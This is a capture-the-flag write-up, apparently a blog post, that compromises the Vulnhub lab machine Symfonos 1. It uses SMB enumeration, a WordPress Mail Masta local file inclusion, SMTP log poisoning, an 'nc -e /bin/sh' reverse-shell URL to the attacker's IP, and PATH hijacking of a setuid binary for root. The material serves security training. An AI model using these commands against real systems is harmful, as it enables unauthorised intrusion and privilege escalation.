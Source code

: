 ```yaml
---
title:     "Vulnhub - Symfonos 1"
tags: [wordpress,easy,log-poisoning,smb,path,lfi,setuid]
---
```


Today, We are going to pwn Symfonos 1 by Zayotic from Vulnhub

## Description:

```
Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

    Name: symfonos: 1
    Difficulty: Beginner
    Tested: VMware Workstation 15 Pro & VirtualBox 6.0
    DHCP Enabled

Note: You may need to update your host file for symfonos.local

```
Download Link : <https://www.vulnhub.com/entry/symfonos-1,322/>


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:42:7C:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m23s, deviation: 3h27m50s, median: 23s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2020-03-08T00:09:12-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T06:09:12
|_  start_date: N/A

```

## SMB:

I started with ``SMB`` we can use ``smbmap`` to see is there any files available.
>smbmap - SMB enumeration tool

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/1.png)
```
-H HOST
              IP of host
```

So ``helios`` and ``anonymous`` are there and also ``attention.txt`` file.

There is a tool called ``smbclient`` which helps to access to the server.

>smbclient - ftp-like client to access SMB/CIFS resources on servers

First I tried with ``helios`` I can't login without password, So next is ``anonymous`` which I get logged in without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/2.png)<br/>
Downloaded the ``attention.txt`` to my machine.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/3.png)<br/>
This file contains a warning to the users to not use these password.

I tired again ``smbclient`` with ``helios`` with these 3 passwords.

> smbclient //192.168.1.101/helios -U helios

> -U, --user=USERNAME                       Set the network username

I logged in with ``qwerty`` and found 2 files, Downloaded them to my machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/4.png)

``research.txt``

```
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
```
``todo.txt``

```
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
``todo.txt`` told us to work on ``/h3l105`` it may be a directory. So I checked it in the webpage.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/5.png)

So Its a ``Wordpress`` site. We can use ``wpscan`` to enumerate users and plugins.

Found 2 plugins, I searched for any exploits available for them.
>wpscan --url http://symfonos.local/h3l105/ --enumerate p

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/6.png)<br/>
Found this LFI 
> https://www.exploit-db.com/exploits/40290

> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/7.png)

Now time to change LFI to RCE, we can do it by ``Log poisoning``so I tried to access ``/var/log/apache2/access.log`` but its not working.
We know port ``SMTP`` is open.

>The Simple Mail Transfer Protocol is a communication protocol for electronic mail transmission.

So the user might have a mail and I found [SMTP Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

Found users mail log ``/var/mail/helios``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/8.png)

By following the article, Payload is injected <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/9.png)

Now we can get reverse shell
> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc%20-e%20/bin/sh%20192.168.1.103%201234

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/10.png)

## Privilege Escalation:

Uploaded my Enumeration Script to the machine and found a ``SETUID`` file.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/11.png)

When I run the file it prints the header of the webpage, and I did ``strings`` found ``curl`` is working and its path is not fully defined.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/12.png)

So I checked where is ``curl`` and its is in ``/usr/bin/curl``.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/15.png)

So we can create a file to give us shell and placed it in ``/tmp`` and name it as ``curl`` and change the PATH to ``/tmp``.

This command will make the PATH to search in ``/tmp`` first
> export PATH=/tmp:$PATH

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/13.png)

Once I execute the ``statuscheck`` the ``curl`` checks in ``/tmp`` first and it will make use of our file and give us root.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/14.png)

Rooted!!